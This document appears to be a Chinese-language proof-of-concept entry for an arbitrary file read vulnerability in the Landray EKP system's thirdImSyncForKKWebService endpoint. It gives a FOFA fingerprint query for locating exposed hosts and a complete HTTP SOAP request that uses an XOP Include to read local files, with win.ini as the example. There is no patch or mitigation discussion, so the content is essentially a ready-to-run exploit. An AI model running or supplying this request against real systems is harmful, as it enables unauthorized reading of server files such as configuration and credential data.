 # 蓝凌EKP系统接口thirdImSyncForKKWebService存在任意文件读取漏洞

蓝凌EKP系统接口thirdImSyncForKKWebService存在任意文件读取漏洞

## fofa

```javascript
body="Com_Parameter"
```

## poc

```javascript
POST /sys/webservice/thirdImSyncForKKWebService HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Connection: close
Content-Length: 563
Content-Type: multipart/related; boundary=----oxmmdmlnvlx08yluof5q
SOAPAction: ""
Accept-Encoding: gzip, deflate

------oxmmdmlnvlx08yluof5q
Content-Disposition: form-data; name="a"

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservice.kk.im.third.kmss.landray.com/">
<soapenv:Header/>
<soapenv:Body>
<web:getTodo>
<arg0>
<otherCond>1</otherCond>
<pageNo>1</pageNo>
<rowSize>1</rowSize>
<targets>1</targets>
<type><xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="file:///c:windows/win.ini"/></type>
</arg0>
</web:getTodo>
</soapenv:Body>
</soapenv:Envelope>
------oxmmdmlnvlx08yluof5q--
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412181052623.webp)

## 漏洞来源

- https://mp.weixin.qq.com/s/9xcoXmoJb8GJnID4D2Wa-g